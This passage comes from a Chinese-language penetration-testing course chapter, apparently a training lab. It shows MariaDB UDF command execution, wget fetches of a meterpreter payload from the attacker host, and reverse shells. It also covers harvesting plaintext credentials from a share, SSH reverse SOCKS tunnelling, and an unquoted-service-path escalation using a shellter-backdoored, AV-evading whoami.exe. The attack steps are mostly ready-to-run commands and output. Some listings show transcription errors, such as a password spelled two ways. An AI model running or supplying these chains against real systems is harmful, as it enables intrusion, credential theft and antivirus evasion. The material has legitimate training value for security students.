80000000004000000000000000000000e93b00000000000000000040000038000000e848001c001b0008100000000040
00000000...00000000000000000;
```

设置 `shell` 变量后，我们将再次验证插件目录是否仍然设置为 `/home/dev/plugin`。虽然这对于流程来说不是必需的，但确保没有发生变化是一个好主意。

**清单 936 - 验证 plugin_dir**

```sql
MariaDB [(none)]> select @@plugin_dir;
+----------------+
| @@plugin_dir |
+----------------+
| /home/dev/plugin/ |
+----------------+
1 row in set (0.072 sec)
```

现在是关键时刻。让我们尝试将二进制 shell 转储到文件中。

**清单 937 - 将 shell 转储到文件**

```sql
MariaDB [(none)]> select binary @shell into dumpfile '/home/dev/plugin/udf_sys_exec.so';
Query OK, 1 row affected (0.078 sec)
```

成功了！在我们过于兴奋之前，我们仍然需要创建一个函数。

**清单 938 - 创建 UDF**

```sql
MariaDB [(none)]> create function sys_exec returns int soname 'udf_sys_exec.so';
Query OK, 0 rows affected (0.078 sec)
```

MariaDB 没有向我们提供任何错误，这使得我们相信函数已创建。我们可以通过运行一个查询 `sys_exec` 函数的命令来再次检查。

**清单 939 - 验证 UDF 存在**

```sql
MariaDB [(none)]> select * from mysql.func where name='sys_exec';
+--------+------+------------------+----------+
| name   | ret  | dl               | type     |
+--------+------+------------------+----------+
| sys_exec | 2   | udf_sys_exec.so | function |
+--------+------+------------------+----------+
1 row in set (0.072 sec)
```

现在，让我们通过尝试从 Zora 向我们 Kali 机器发起网络调用，来测试 `sys_exec` UDF 是否有效。为此，我们将启动端口 80 上的 `python http.server`，并对我们 Kali 的 IP 地址在端口 80 上执行 `sys_exec` UDF 调用。

**清单 940 - 在 Kali 上启动 web 服务器**

```bash
kali@kali:~$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 ...
```

既然 web 服务器已经启动，我们就可以进行 `sys_exec` UDF 调用。函数的语法可以在最初的 UDF 利用中找到。

**清单 941 - 执行 wget 调用**

```sql
MariaDB [(none)]> select sys_exec('wget http://10.11.8.4');
+------------------------------+
| sys_exec('wget http://10.11.8.4') |
+------------------------------+
| 256                          |
+------------------------------+
1 row in set (0.230 sec)
```

如果命令有效，我们应该在我们的 web 服务器日志中看到一条日志条目。

**清单 942 - 查看 web 服务器日志**

```text
Serving HTTP on 0.0.0.0 port 80 ...
10.11.1.250 -- [10/Dec/2019 17:49:05] "GET / HTTP/1.1" 200 -
```

成功！我们在 Zora 上运行代码。

现在，我们可以上传并执行 Zora 上的 meterpreter 负载，以便将反向 shell 发送回我们的 Kali 实例。我们不需要生成新的 meterpreter shell，因为我们只需使用用于 Aija 的同一个即可。由于我们现在通过标准的 ssh 连接连接到 Aija，我们可以使用 Kali 上的端口 443 作为 Zora 的 meterpreter 会话。首先，让我们指示 Zora 下载二进制负载。

**清单 943 - 下载 Meterpreter 负载**

```sql
```


> MariaDB [(none)]> select sys_exec('wget http://10.11.0.4/shell.elf');

> +-------------------------------------------------------+

> | sys_exec('wget http://10.11.0.4/shell.elf') |

> +-------------------------------------------------------+

> | 0 |

> +-------------------------------------------------------+

> 1 row in set (0.260 sec)

> ```
>
> 

既然 `meterpreter` 已下载，我们需要使文件可执行。

### 清单 944 - 使负载可执行

```sql
MariaDB [(none)]> select sys_exec('chmod +x ./shell.elf');

+------------------------------------+
| sys_exec('chmod +x ./shell.elf') |
+------------------------------------+
| 0 |
+------------------------------------+
1 row in set (0.074 sec)
```


既然 `shell` 现在可执行，让我们重启 Kali 上的 `msfconsole` 以获得一个全新的环境。

### 清单 945 - 重启 msfconsole

```bash
msf5 exploit(multi/handler) > exit
kali@kali:~$ sudo msfconsole -q -x "use exploit/multi/handler;
set PAYLOAD linux/x86/meterpreter/reverse_tcp;
set LHOST 10.11.0.4;
set LPORT 443;
run"
...
[*] Started reverse TCP handler on 10.11.0.4:443
```


随着我们的监听器配置并运行，我们可以执行 Zora 上的 `shell`。

### 清单 946 - 执行 shell

```sql
MariaDB [(none)]> select sys_exec('./shell.elf');
```


现在，我们可以回到 `msfconsole` 并检查我们是否捕获了 `shell`。

### 清单 947 - 捕获 shell

```text
[*] Started reverse TCP handler on 10.11.0.4:443
[*] Sending stage (985320 bytes) to 10.11.1.250
[*] Meterpreter session 1 opened (10.11.0.4:443 -> 10.11.1.250:27904) at 18:00:32

meterpreter > shell
Process 3972 created.
Channel 1 created.

whoami
mysql
```

太棒了，我们在 Zora 上拥有一个可用的非特权 `shell`！

## 24.5.1.1 练习

- 修改原始的 Python 利用并捕获反向 `shell`。
- 原始的 UDF 利用被宣传为提权利用。为什么我们得到的是一个非特权 `shell`？

## 24.5.2 后利用信息收集

既然我们在 Zora 上拥有 `shell`，让我们收集一些关于主机的一般信息，看看我们能了解什么。让我们从检查正在运行的 Linux 发行版类型开始。

### 清单 948 - 查看 `/etc/issue`

```bash
meterpreter > shell
Process 4469 created.
Channel 2 created.
cat /etc/issue
Welcome to Alpine Linux 3.10
Kernel \r on an \m (\l)
```

快速的谷歌搜索告诉我们，Alpine Linux 是“一个基于 musl libc 和 busybox 的、注重安全性的轻量级 Linux 发行版”。⁷³⁸ 这是一个有用的信息，我们可以预期该操作系统没有运行很多服务或应用程序。任何不寻常的东西都可能是一个好的目标。让我们继续收集信息。

### 清单 949 - 查找内核版本

```bash
cat /proc/version
Linux version 4.19.78-0-virt (builddozer@build-3-10-x86_64) (gcc version 8.3.0 (Alpine 8.3.0)) #1-Alpine SMP Thu Oct 10 15:25:30 UTC 2019
```

`/proc/version` 文件告诉我们该发行版是在 2019 年 10 月构建的。除此之外，我们可以记下内核版本并继续前进。

让我们看看环境变量。

### 清单 950 - 查找环境变量

```bash
env
USER=mysql
SHLVL=1
HOME=/var/lib/mysql
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/system/bin:/system/sbin:/system/xbin
LANG=C
PWD=/var/lib/mysql
```

⁷³⁸ (Alpine Linux 开发团队, 2020). https://alpinelinux.org/


不幸的是，环境变量并没有告诉我们太多信息。查看 `ps aux` 的输出也没有揭示任何关于我们可以利用什么有用的信息。让我们运行 `netstat`，看看我们是否有访问沙箱外部网络未暴露的任何新端口的权限。

```bash
netstat -tupn
netstat: showing only processes with your user ID
Proto Recv-Q Send-Q Local Address Foreign Address State PID/Program name
tcp 0 0 0.0.0.0:22 0.0.0.0:* LISTEN -
tcp 0 0 0.0.0.0:3306 0.0.0.0:* LISTEN -
tcp 0 0 :::22 :::* LISTEN -
udp 0 0 127.0.0.1:323 0.0.0.0:* -
udp 0 0 :::323 :::* -
```

列表 951 - 查看开放端口

与正在运行的服务类似，开放的端口也没有为我们提供任何新信息。让我们检查一下文件系统是什么样子。

```bash
cat /etc/fstab
UUID=ede2f74e-f23a-441c-b9cb-156494837ef3 / ext4 rw,relatime 0 1
UUID=8e53ca17-9437-4f54-953c-0093ce5066f2 /boot ext4 rw,relatime 0 2
UUID=ed8d3bc1-a3c8-45fb-b5ec-8fe1529a8046 swap swap defaults 0 0
/dev/cdrom /media/cdrom iso9660 noauto,ro 0 0
/dev/usbdisk /media/usb vfat noauto 0 0
//10.5.5.20/Scripts /mnt/scripts cifs uid=0,gid=0,username=,password=,,netdev 0 0
```

列表 952 - 检查已挂载的共享

`/etc/fstab` 的内容很有趣。从 `10.5.5.20` 主机挂载了一个共享。让我们去翻翻这个脚本共享，看看能找到什么。

```powershell


`cd /mnt/scripts`

`ls`

`nas_setup.yml`

`olsumerlookup.ps1`

`system_report.ps1`

`temp_folder_cleanup.bat`

`cat system_report.ps1`

# find a better way to automate this

`$user = "sandbox\alex"`

`$pwdTxt = "N4dwC+NR0qkC+th4Z"`

`$secuPwd = $pwdTxt | ConvertTo-SecureString`

`$cRedObj = New-Object System.Management.Automation.PSCredential -ArgumentList $user, $secuPwd`

# Enable remote management on Poultry

`$remKeyParams = @{`

`ComputerName = "POULTRY"`

`Path = 'HKLM:\SOFTWARE\Microsoft\WebManagement\Server'`

`Name = 'EnableRemoteManagement'`

`Value = '1'`

`}`

`Set-RemoteRegistryValue $remKeyParams -Credential $cRedObj`

# Strange calc processes running lately

`Stop-Process -processname calc`

...

```
列表 953 - 审查脚本

我们似乎在一个名为 system_report.ps1 的文件中发现了一组凭据。用户名是 “sandbox\alex”，密码是 “Ndlwc*nRoqkC+hAZ”。我们还似乎找到了挂载该共享的目标名称 “Poultry”。鉴于该目录中的脚本类型，并考虑到该用户似乎是 “sandbox” 域的一部分，我们可能正在面对一台 Windows 计算机。

> 下载你发现的脚本并将其保存到你的笔记中是个好习惯。你永远不会知道什么时候某些东西可能会被删除，或者客户可能需要更多证据。
```

### 24.5.3 创建稳定的反向隧道

就像我们之前通过 `www-data` 用户获得 Ajla 的非特权 shell 访问权限一样，由于 `mysql` 用户默认没有 shell 访问权限，我们不能使用标准的 `ssh` 连接来访问 Zora。

虽然我们可以创建一个类似于在 Ajla 上使用的 `ssh` 隧道，但由于 Zora 运行的是非常新的 Alpine 版本，我们可以设置另一个选项。新版本的 `ssh` 客户端允许我们通过反向动态端口转发建立一种非常有用的隧道。

```
ssh -V

OpenSSH_8.1p1, OpenSSL 1.1.1d  10 Sep 2019
```
列表 954 - 检查 `ssh` 客户端版本

Zora 运行的是 `ssh` 版本 `OpenSSH_8.1p1`，应该支持此功能。如果我们能让这个工作起来，我们将通过运行在 Kali 机器上的 SOCKS 代理获得对 `10.5.5.0/24` 沙箱内部网络的完整网络访问权限。

由于我们只有 `meterpreter` shell 的访问权限，我们需要在 Zora 上创建一个新的 `ssh` 密钥，并以不需要交互的方式运行 `ssh` 客户端。首先，让我们在 Zora 上生成一个 `ssh` 密钥。我们将使用 `meterpreter` shell 来完成这个任务。

```
ssh-keygen

Generating public/private rsa key pair.

Enter file in which to save the key (/var/lib/mysql/.ssh/id_rsa):

Enter passphrase (empty for no passphrase):

Enter same passphrase again:

Created directory `/var/lib/mysql/.ssh`.

Your identification has been saved in /var/lib/mysql/.ssh/id_rsa.

Your public key has been saved in /var/lib/mysql/.ssh/id_rsa.pub

...

cat /var/lib/mysql/.ssh/id_rsa.pub

ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQc4cjmVS... mysql@zora
```
列表 955 - 生成 SSH 密钥

生成 SSH 密钥后，我们需要在 Kali 机器上为 `kali` 用户设置 `authorized_keys` 文件，并应用与我们之前相同的限制类型。可以在列表 956 中找到该条目的示例。

```
from="10.11.250",command="echo 'This account can only be used for port forwarding!",no-agent-forwarding,no-X11-forwarding,no-pty ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC4cjmvS... mysq1@zorra
```
*列表 956 - authorized_keys 文件条目*

“from” IP 地址不需要更改，因为对于我们的 Kali 系统来说，流量仍然来自外部防火墙。不过，我们使用的 `ssh` 命令确实需要做一些修改。这一次，我们不需要多个远程端口转发选项。我们只需要一个端口转发选项，即 `-R 1080`。由于在端口后面没有包含主机名，`ssh` 被指示在我们的 Kali 服务器上创建一个 SOCKS 代理。^759 我们还需要更改私钥的位置。

```
ssh -f -n -R 1080 -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" -i /var/lib/mysql/.ssh/id_rsa kali@10.11.0.4
```
*列表 957 - 到 Kali 的 SSH 反向动态端口转发命令*

在 `meterpreter` shell 中运行此命令应该会启动到我们的 Kali 机器的 `ssh` 连接。

```
msf6 exploit(meterpreter) > run

ssh -f -n -R 1080 -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" -i /var/lib/mysql/.ssh/id_rsa kali@10.11.0.4

Warning: Permanently added '10.11.0.4' (ECDSA) to the list of known hosts.
```
*列表 958 - 在 metasploit 中运行反向动态端口转发的 SSH 命令*

我们可以通过在 Kali 系统上运行 `netstat` 来双重检查端口是否已打开。

```
kali@kali:~$ sudo netstat -tulnp

Active Internet connections (only servers)

Proto Recv-Q Send-Q Local Address Foreign Address State PID/Program name

tcp 0 0 0.0.0.0:111 0.0.0.0:* LISTEN 1/systemd

tcp 0 0 0.0.0.0:22 0.0.0.0:* LISTEN 645/sshd

tcp 0 0 127.0.0.1:1880 0.0.0.0:* LISTEN 99765/sshd: kali

tcp6 0 0 :::111 :::* LISTEN 1/systemd

tcp6 0 0 :::22 :::* LISTEN 645/sshd

tcp6 0 0 ::1:1880 :::* LISTEN 99765/sshd: kali

udp 0 0 0.0.0.0:1194 0.0.0.0:* 94368/openvpn

udp 0 0 0.0.0.0:111 0.0.0.0:* 1/systemd

udp6 0 0 ::1:111 :::*
```
*列表 959 - 验证反向动态端口转发已创建*

建立了动态反向隧道后，我们可以配置 Kali 上的 `proxychains` 以使用 SOCKS 代理。我们可以通过打开 `etc/proxychains.conf` 并编辑最后一行，指定端口 `1080` 来实现。

```
# proxychains.conf VER 3.1

#

# HTTP, SOCKS4, SOCKS5 tunneling proxifier with DNS.

...

[ProxyList]

# add proxy here ...

# meanwhile

# defaults set to "tor"
```


socks4 127.0.0.1 1080

```
列表 960 - 配置 proxychains
```

^759 (OpenBSD Foundation, 2019), https://man.openbsd.org/ssh#R_S

此时，我们应该拥有一个稳定的隧道来访问 `10.5.5.0/24` 网络，并且可以继续下一个目标，即我们在 Zora 上挂载的共享中发现的 Poultry。

## 24.6 针对 Poultry

在我们继续之前，回顾一下我们知道和不知道的内容会有帮助。我们知道 Ajla 通过数据库服务器 Zora 连接到内部网络。我们还刚刚了解到，在内部网络中，从另一台名为 Poultry 的计算机挂载了一个共享到 Zora。我们怀疑 Poultry 运行的是 Windows，但我们还不确定。我们还发现了沙箱域内一个用户的凭据。这意味着某处应该存在一个域控制器。


在尝试使用发现的凭据之前，我们将首先枚举 Poultry，以确定我们的下一步行动应该是什么。

#### 24.6.1 枚举

我们假设 Poultry 运行的是 Windows。通过进行一些网络枚举，例如使用 `Nmap` 扫描，我们可以更加确信这一点。如果 `Nmap` 发现了任何应用程序，我们也可以对其进行枚举。

## 24.6.1.1 网络枚举

为了运行 `Nmap` 扫描，我们需要使用 `ProxyChains`。通过 `ProxyChains` 进行网络扫描速度会比较慢，因此我们将仅扫描前 20 个端口，如有必要再扩大扫描范围。

> 你可以通过修改 `/etc/proxychains.conf` 中的 `tcp_read_time_out` 和 `tcp_connect_time_out` 值来调整超时时间，从而加快通过 `proxychains` 进行网络扫描的速度。但是，不要将这些值设置得过低，否则你会得到错误的结果。

要通过 `ProxyChains` 运行 `Nmap`，我们需要在想要运行的 `nmap` 命令前加上 `proxychains` 前缀。我们将使用 `--top-ports=20` 标志仅扫描前 20 个端口，并使用 `-sT` 标志进行连接扫描。SOCKS 代理需要建立 TCP 连接，因此半开或 SYN 扫描不能与 `ProxyChains` 一起使用。[740] 由于 SOCKS 代理需要 TCP 连接，ICMP 数据包也无法通过，因此我们必须使用 `-Pn` 标志禁用 ping。

```bash
kali@kali:~$ proxychains nmap --top-ports=20 -sT -Pn 10.5.5.20

ProxyChains-3.1 (http://proxychains.sf.net)

Starting Nmap 7.80 ( https://nmap.org ) at 2019-12-10 20:52 MST

S-chain|<-->127.0.0.1:1080<->><>->10.5.5.20:110<---timeout

S-chain|<-->127.0.0.1:1080<->><>->10.5.5.20:139<--->OK

S-chain|<-->127.0.0.1:1080<->><>->10.5.5.20:3389<->->OK

S-chain|<-->127.0.0.1:1080<->><>->10.5.5.20:443<->->OK

S-chain|<-->127.0.0.1:1080<->><>->10.5.5.20:143<->->OK

S-chain|<-->127.0.0.1:1080<->><>->10.5.5.20:8080<---timeout

...

Nmap scan report for 10.5.5.20

Host is up (1.4s latency).

PORT     STATE SERVICE

21/tcp   closed ftp

22/tcp   closed ssh

23/tcp   closed telnet

25/tcp   closed smtp

53/tcp   closed domain

80/tcp   closed http

110/tcp  closed pop3

111/tcp  closed rpcbind

135/tcp  open  msrpc

139/tcp  open  netbios-ssn

143/tcp  closed imap

443/tcp  closed https

445/tcp  open  microsoft-ds

993/tcp  closed  imaps

995/tcp  closed  pop3s

1723/tcp closed pptp

3306/tcp closed mysql

3389/tcp open ms-wbt-server

5900/tcp closed vnc

8080/tcp closed http-proxy

Nmap done: 1 IP address (1 host up) scanned in 25.48 seconds
```

[740] (Wikipedia, 2019), https://en.wikipedia.org/wiki/SOCKS#Comparison_to_HTTP_proxying

> 清单 961 - 使用 nmap 扫描 Poultry

在清单 961 中，`Nmap` 发现端口 `135`、`139`、`445` 和 `3389` 处于开放状态。然而，端口 `53` 是关闭的，而在域控制器上该端口通常是开放的。这很可能不是我们要找的域控制器，但其他端口仍然表明这是一个 Windows 操作系统。前 20 个端口没有显示任何正在运行的 HTTP 应用程序，因此让我们尝试通过 RDP 登录并“利用”这台 Windows 机器，使用我们发现的凭据。

## 24.6.2 利用（或者仅仅是登录）

现在我们已经更加确信该主机上运行的是 Windows，并且发现 RDP 处于开放状态，我们将使用 `xfreerdp` 进行连接。就像对 `Nmap` 所做的那样，我们需要在 `xfreerdp` 前加上 `proxychains` 命令前缀。我们分别使用 `/d:sandbox` 和 `/u:alex` 标志提供域名和用户名。为了重定向剪贴板，我们将使用 `+clipboard` 标志，这将允许我们向 Poultry 复制和粘贴内容。最后，我们还将使用 `/v:10.5.5.20` 标志提供主机地址。

```bash
kali@kali:~$ proxychains xfreerdp /d:sandbox /u:alex /v:10.5.5.20 +clipboard

ProxyChains-3.1 (http://proxychains.sf.net)

...

Certificate details for 10.5.5.20:3389 (RDP-Server):

  Common Name: POULTRY.sandbox.local

  Subject:    CN = POULTRY.sandbox.local

  Issuer:     CN = POULTRY.sandbox.local

  Thumbprint: 10:9c:cc:64:c6:ad:9a:bb:78:4d:b3:04:b4:fb:77:0c:1a:c6:d2:b0

The above X.509 certificate could not be verified, possibly because you do not have

the CA certificate in your certificate store, or the certificate has expired.

Please look at the OpenSSL documentation on how to add a private CA to the store.

Do you trust the above certificate? (Y/T/N) Y

Password:
```


> 清单 962 - 使用 `xfreerdp` 连接到主机

在初始连接过程中，系统会提示我们接受证书。输入“Y”会将该证书添加到我们的信任存储中。接下来，我们会被提示输入密码，我们在 `system_report.ps1` 脚本中发现了该密码。


凭据有效，我们看到了 Windows 7 桌面（图 342）。


图 342：登录 Poultry

## 24.6.3 后渗透枚举

经过短暂调查，我们很快发现 Poultry 上安装了 McAfee Endpoint Security。这意味着如果我们上传和使用任何恶意可执行文件，我们必须非常小心并确保能躲避防病毒软件（AV）。


我们将首先收集关于主机的一些基本信息，例如确切的 Windows 构建版本、主机名、本地用户、网络信息以及正在运行的服务。我们将首先运行 `systeminfo`。

```text
C:\Users\alex>systeminfo

Host Name:               POULTRY

OS Name:                 Microsoft Windows 7 Professional

OS Version:              6.1.7601 Service Pack 1 Build 7601

...

Registered Owner:        poultryadmin

...

Domain:                  sandbox.local

Logon Server:            \\SANDBOXDC

Hotfix(s): 186 Hotfix(s) Installed.

[01]: KB2849697

...

[186]: KB4467107

Network Card(s): 1 NIC(s) Installed.

[01]: Intel(R) PRO/1000 MT Network Connection

...

IP address(es)

[01]: 10.5.5.20

[02]: fe80::400a:ba3e:4ca5:6aa2
```

> 清单 963 - 在 Poultry 上运行 `systeminfo`

此命令的输出提供了一些非常有用的信息。首先，我们知道操作系统版本是 Windows 7 Professional SP1 Build 7601。我们看到有一个名为“poultryadmin”的本地用户，并且这台计算机确实已加入“sandbox.local”域。接下来，我们发现该主机上唯一的 IPv4 地址是 10.5.5.20。由于我们无法进行完整的端口扫描，让我们使用 `netstat` 命令查找哪些端口是开放的。

```text
C:\Users\alex>netstat -ano

Active Connections

Proto Local Address Foreign Address State PID

TCP 0.0.0.0:135 0.0.0.0:0 LISTENING 820

TCP 0.0.0.0:445 0.0.0.0:0 LISTENING 4

TCP 0.0.0.0:3389 0.0.0.0:0 LISTENING 428

TCP 0.0.0.0:49152 0.0.0.0:0 LISTENING 524

TCP 0.0.0.0:49153 0.0.0.0:0 LISTENING 872

TCP 0.0.0.0:49154 0.0.0.0:0 LISTENING 364

TCP 0.0.0.0:49172 0.0.0.0:0 LISTENING 632

TCP 0.0.0.0:49173 0.0.0.0:0 LISTENING 640

TCP 10.5.5.20:139 0.0.0.0:0 LISTENING 4

...

UDP [fe80::400a:ba3e:4ca5:6aa2%11]:546 *.* 872
```

> 清单 964 - 在 Poultry 上运行 `netstat`

虽然我们之前的端口扫描只检查了前 20 个端口，但它仍然找到了所有感兴趣的端口。我们已知端口 135、139、445 和 3389 是开放的。49152 及以上的端口是 Windows 建立 TCP 连接时使用的默认动态/临时端口，我们不需要担心它们。[741] 此时，我们还应该检查 `alex` 是否属于任何管理员组。

```text
C:\Users\alex>net user /domain alex

The request will be processed at a domain controller for domain sandbox.local.

User name alex

Full Name

Comment

User's comment

Country code

000 (System Default)

Account active

Yes

Account expires

Never

Password last set

11/12/2019 4:26:47 PM

Password expires

Never

Password changeable

11/13/2019 4:26:47 PM

Password required

Yes

User may change password

Yes

Workstations allowed

All

Logon script

User profile

Home directory

Last logon

1/1/2020 1:58:06 PM

Logon hours allowed

All

Local Group Memberships

Global Group memberships

*Domain Users

The command completed successfully.
```

> 清单 965 - 在 Poultry 上运行 `net user`

[741] (Wikipedia, 2019). https://en.wikipedia.org/wiki/Ephemeral_port

看起来用户 "alex" 只是一个普通的域用户。记录下这些信息后，我们将查看安装了哪些应用程序。


图 344. 查找已安装的应用程序

Windows 的开始菜单中并未列出该用户的很多应用程序。虽然这并不是一个完整的列表，但它能让我们很好地了解这台计算机的用途。根据目前掌握的信息，这似乎是一个用户的工作站。

接下来，我们可以查看服务，看看是否有任何有趣的服务正在运行。我们可以使用 `wmic` 命令列出所有正在运行的服务。目前我们只需要基本信息，例如名称、显示名称、路径和启动模式。

```
C:\Users> wmic service get name,displayname,pathname,startmode
```

| 显示名称 | 名称 | 路径 | 启动模式 |
| :--- | :--- | :--- | :--- |
| Windows Driver Foundation - User-mode Driver Framework | wudfsvc | C:\Windows\System32\svchost.exe -k LocalSystemNetworkRestricted | Manual |
| WWAN AutoConfig | WwanSvc | C:\Windows\system32\svchost.exe -k LocalServiceNoNetwork | Manual |

**列表 966 - 通过 `wmic` 获取服务**

这是非常有用的信息，但数据量太大，我们无法手动逐一审查。我们将通过管道将 `wmic` 命令的输出传递给 `findstr`，搜索单词 "auto"，从而将范围缩小到自动启动的服务。同时，我们还包含 `/i` 标志以使搜索不区分大小写。

```
C:\Users\alex>wmic service get name,displayName,pathname,startmode | findstr /i "auto"
```


| 显示名称 | 名称 | 路径 | 启动模式 |
| :--- | :--- | :--- | :--- |
| Application Identity | AppIDSvc | `C:\Windows\system32\svchost.exe -k LocalServiceAndNoImpersonation` | ... |
| WWAN AutoConfig | WwanSvc | `C:\Windows\system32\svchost.exe -k LocalServiceNoNetwork` | Manual |

### 列表 967 - 获取通过 wmic 自动启动的服务

输出结果更好了，但还不是最理想的。我们可以进一步排除从 `c:\windows` 文件夹启动的服务，以获取非标准服务的列表。我们可以通过再次将命令管道传输给 `findstr` 并使用 `/v` 标志来忽略包含字符串 `"c:\windows"` 的任何内容来实现这一点。

```
C:\Users\alex>wmic service get name,displayName,pathname,startmode | findstr /i "auto" | findstr /i /v "c:\windows"
```

| 显示名称 | 名称 | 路径 | 启动模式 |
| :--- | :--- | :--- | :--- |
| McAfee Agent Common Services | macmsnsvc | `"C:\Program Files\McAfee\Agent\macmsnsvc.exe" /ServiceStart` | Auto |
| McAfee Agent Service | masvc | `"C:\Program Files\McAfee\Agent\masvc.exe" /ServiceStart` | Auto |
| McAfee Service Controller | mfmms | `"C:\Program Files\Common Files\McAfee\SystemCore\mfemms.exe"` | Auto |
| McAfee Endpoint Security Web Control Service | mfewc | `"C:\Program Files (x86)\McAfee\Endpoint Security\Web Control\mfewc.exe"` | Auto |
| Puppet Agent | puppet | `C:\Puppet\Current Version\sys\ruby\bin\ruby.exe --rubygems "C:\Puppet\Current Version\service\daemon.rb"` | Auto |
| VMware Alias Manager and Ticket Service | VGAuthService | `"C:\Program Files\VMware\VMware Tools\VMware VGAAuth\VGAAuthService.exe"` | Auto |
| VMware Tools | VMTTools | `"C:\Program Files\VMware\VMware Tools\vmtold.exe"` | Auto |

### 列表 968 - 获取通过 wmic 自动启动且非标准的服务

现在，我们获得了一个更易于管理的列表。让我们最先注意到的一点是，Puppet Agent 的服务路径没有加引号。未加引号的搜索路径可能会为我们提供提升权限的机会，前提是该服务是在更高特权用户的上下文中运行的。为了查找运行此服务的用户，我们将通过开始菜单搜索“Services”（服务）来打开服务列表。


**图 345: 查找服务应用程序**

现在我们可以打开服务并找到“Puppet Agent Service”。


Puppet Agent 被配置为通过“Local System”（本地系统）运行。这对我们来说是个好消息，因为我们可能有一条提权之路。此时，下一步是检查 `C:\Puppet` 目录是否可写，因为这是利用未加引号的服务路径的前提条件。我们可以使用 `icacls` 来查看我们拥有什么权限。

```
C:\Users\alex>icacls "C:\Puppet"
```

```
   BUILTIN\Users:(W)

   BUILTIN\Administrators:(I)(F)

   BUILTIN\Administrators:(I)(OI)(CI)(IO)(F)

NT AUTHORITY\SYSTEM:(I)(F)

NT AUTHORITY\SYSTEM:(I)(OI)(CI)(IO)(F)

   BUILTIN\Users:(I)(OI)(CI)(RX)

NT AUTHORITY\Authenticated Users:(I)(M)

NT AUTHORITY\Authenticated Users:(I)(OI)(CI)(IO)(M)
```

### 列表 969 - 检查 C:\Puppet 目录的权限


根据列表 969，由于 alex 是 Users 组的成员，我们对 `C:\Puppet` 文件夹具有写入权限。接下来，为了利用未加引号的路径 `C:\Puppet\Current Version`，我们需要创建一个名为 `Current.exe` 的反向 shell，它应该能够绕过反病毒软件，并将其放置在 `C:\Puppet` 中。

### 24.6.4 未加引号搜索路径利用

既然我们知道反病毒软件正在运行，我们将使用 `shellter` 将 `meterpreter` 载荷注入到一个 Windows 二进制文件中，希望能绕过 McAfee。

> 请确保在 Kali 上通过 Wine 安装了 `shellter`。如有需要，可以在反病毒软件规避模块中找到说明

首先，我们将创建一个名为 `poultry` 的目录用于操作，并复制一个合法的 Windows 二进制文件到其中。我们将选择的 Windows 二进制文件是 `whoami.exe`，考虑到它是一个众所周知的合法工具，被反病毒软件捕获的可能性较低。

```
kali@kali:~$ mkdir poultry

kali@kali:~$ cp /usr/share/windows-resources/binaries/whoami.exe ./poultry/

kali@kali:~$ cd poultry/

kali@kali:~/poultry$
```

### 列表 970 - 复制 whoami 二进制文件

二进制文件复制完成后，我们将生成一个 `meterpreter` 载荷以配合 `shellter` 使用。我们将指定一个 Windows 反向 TCP `meterpreter` 载荷以匹配目标操作系统。我们 Kali 的 IP 地址将在 `LHOST` 选项中指定，我们将使用 `LPORT` 选项选择 80 端口。选择 80 端口是为了希望规避潜在的出站防火墙限制。接下来，我们将使用 `-e` 标志对二进制文件进行编码，并使用 `-i` 指定任意数量的编码迭代次数。最后，我们将使用 `-f` 标志以原始格式输出。该命令的输出将重定向到 `met.bin` 文件。

```
kali@kali:~/poultry$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.11.0.4 LPORT=80 -e x86/shikata_ga_nai -i 7 -f raw > met.bin

[-] No platform was selected, choosing x86::Module::Platform::Windows from the payload

[-] No arch selected, selecting arch: x86 from the payload

Found 1 compatible encoders

Attempting to encode payload with 7 iterations of x86/shikata_ga_nai

x86/shikata_ga_nai succeeded with size 368 (iteration=0)

x86/shikata_ga_nai succeeded with size 395 (iteration=1)

x86/shikata_ga_nai succeeded with size 422 (iteration=2)

x86/shikata_ga_nai succeeded with size 449 (iteration=3)
```


x86/shikata_ga_nai succeeded with size 476 (iteration=4)

x86/shikata_ga_nai succeeded with size 503 (iteration=5)

x86/shikata_ga_nai succeeded with size 530 (iteration=6)

x86/shikata_ga_nai chosen with final size 530

Payload size: 530 bytes

```
**列表 971 - 生成 meterpreter shell**
```

生成载荷后，我们现在可以启动 shellter 将其动态注入到 `whoami.exe` 二进制文件中。要在 Kali 中启动 Shellter，我们将在命令行中输入 `shellter`。当我们首次启动 shellter 时，它会提示我们选择自动或手动操作模式。我们将选择“A”代表自动模式，然后指定目标 PE 文件 `/home/kali/poultry/whoami.exe`。

```
Choose Operation Mode – Auto/Manual (A/M/H): A

PE Target: /home/kali/poultry/whoami.exe

**********

* Backup *

**********

Backup: Sheller_Backups\whoami.exe

...

Filtering Time Approx: 0.0024 mins.
```

### 列表 972 - 将 meterpreter shell 注入到 whoami 二进制文件

输入二进制文件的完整路径后，shellter 会创建该文件的备份。随后我们会被提示“Enable Stealth Mode”（启用隐匿模式），在这种情况下我们将跳过，因为我们不需要 whoami 二进制文件在运行我们的载荷后仍能正常工作。接下来，提示我们选择一个载荷。

```
Enable Stealth Mode? (Y/N/H): N

**********

* Payloads *

**********

[1] Meterpreter_Reverse_TCP       [stager]

[2] Meterpreter_Reverse_HTTP      [stager]

[3] Meterpreter_Reverse_HTTPS     [stager]

[4] Meterpreter_Bind_TCP          [stager]

[5] Shell_Reverse_TCP             [stager]

[6] Shell_Bind_TCP                [stager]

[7] WinExec

Use a listed payload or custom? (L/C/H): C
```

### 列表 973 - 将 meterpreter shell 注入到 whoami 二进制文件

我们将使用通过 `msfvenom` 生成的自定义 `(C)` 载荷。

```
Select Payload: /home/kali/poultry/met.bin

Is this payload a reflective DLL loader? (Y/N/H): N

************

* Payload Info *

************

...

Injection: Verified!

Press [Enter] to continue...
```

### 列表 974 - 将 meterpreter shell 注入到 whoami 二进制文件

当提示“选择有效载荷”时，我们需要提供已生成的有效载荷的完整路径。最后，Shellter 会询问该有效载荷是否为反射式 DLL 加载器[^742]，在这种情况下，它并不是。随后，该有效载荷将被注入到二进制文件中，Shellter 会向我们提供一条“注入：已验证！”的消息。

既然目标 PE 文件已成功植入后门，我们可以将 `whoami.exe` 二进制文件传输到 Poultry 并放置在正确的位置。为了传输该二进制文件，我们将再次使用 Python 中的 `http` 服务器模块。

```
kali@kali:~$ sudo python3 -m http.server 80

